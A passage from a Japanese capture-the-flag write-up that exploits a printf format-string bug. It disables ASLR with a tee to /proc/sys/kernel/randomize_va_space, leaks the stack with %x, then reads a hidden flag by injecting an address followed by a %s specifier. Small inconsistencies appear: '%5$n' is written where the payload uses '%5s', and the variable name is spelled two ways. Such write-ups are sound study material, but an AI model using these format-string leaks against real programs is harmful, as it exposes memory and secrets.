 ```c
  return 0;
}
```

これを、実行すると

```shell
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
$ ./a.out
%x,%x,%x,%x,%x,%x
666f2a1,0,666f2b2,61b97240,40,252c7825
secret address: 0x55558060
```

スタックの1番目はおそらくlocalのアドレス、6番目がlocalが実際に保存されている場所、ということがわかる。
"252c7825"をasciiコードとして文字に治すと "%x,"。

また、s3cr37のアドレスが`0x55558060`とわかるの。

ここから、攻撃する手立てを考える。

1. スタックに、localのアドレスを書き込む
2. そのアドレスが書き込まれたスタックをprintfにわたして、`%s`を指定すれば、そのアドレスから始まる文字列を`\0`が出てくるまで文字として表示させる。

ということで、以下を入力します。

```shell
$ printf '\x60\x80\x55\x55 %5s' | ./a.out
taskctf{XXXXXXXX}
```


1. `\x60\x80\x55\x55` localの先頭4バイトにアドレスを書き込む
2. %5$n 5番めのアドレスの先ににある文字列を出力する


|上|
|:-:|
|localのアドレス|
|?|
|?|
|?|
|local (`\x60\x80\x55\x55 %5s`  = s3crc7のアドレスに見える)|
|?|
|?|
|?|
|s3crc7|
|下|
